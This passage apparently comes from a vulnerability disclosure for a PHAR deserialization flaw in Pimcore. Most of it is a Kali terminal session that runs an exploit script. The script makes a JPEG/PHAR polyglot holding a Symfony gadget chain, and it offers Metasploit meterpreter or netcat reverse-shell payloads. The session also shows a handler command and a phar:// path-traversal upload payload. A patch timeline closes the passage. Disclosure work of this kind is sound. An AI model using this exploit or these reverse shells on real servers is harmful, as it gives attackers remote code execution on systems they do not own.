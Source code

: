 Moreover, the script generate a basic *sh reverse shell*, a metasploit *PHP meterpreter reverse shell* or whatever command you want.

```bash
root@kali:~# php polyglot_phar_exploit.php -h
This PHP CLI script create a polyglot PHAR (PHP Archive) that is a valid PHAR file and JPEG image at the same time.
The PHAR file contain a Symfony gadget chain in his meta data and exploit __destruct() method executing the passed command.
Usage:
-h	This help
-t type	The payload. Possible values are:
	'msf' for msf php reverse shell (need metasploit)
	'nc' for a sh reverse shell
	'<your command>' for passing command like 'touch /tmp/findme'
-l IP	The local IP address
-p port	The local port
-o file	The output file
-i file	The input file. If no file is passed, create a Polyglot PHAR with a default 1x1px image

root@kali:~# php polyglot_phar_exploit.php -t msf -p 4444 -l 10.0.8.2 -o cmg-phar-msf.jpg -i cmg.jpg
No encoder or badchars specified, outputting raw payload
Payload size: 1109 bytes

[-] run 'msfconsole -x "use exploit/multi/handler; set payload php/meterpreter/reverse_tcp; set LHOST 10.0.8.2; exploit"'
filename: cmg.jpg[+] Creation complete successfully!
[-] Payload to send: cmg-phar-msf.jpg/j7NysV.txt
[-] e.g.: filename=phar://../../../../../../../../../../../../var/www/html/web/var/assets/cmg-phar-msf.jpg/j7NysV.txt
root@kali:~# ls -la
...
-rw-r--r-- 1 root root 204771 Apr 28 18:39 cmg.jpg
-rw-r--r-- 1 root root 206695 Apr 28 19:05 cmg-phar-msf.jpg
...
```

## Time Line

| Date | What |
| --- | --- |
| 2019/03/08 | Vulnerability was discovered. |
| 2019/03/14 | Vulnerability was tested on some different version and confirmed. |
| 2019/03/15 | Vulnerability was reported to Pimcore team. |
| 2019/03/19 | Pimcore releases patch with version 5.7.0. |

## Summary
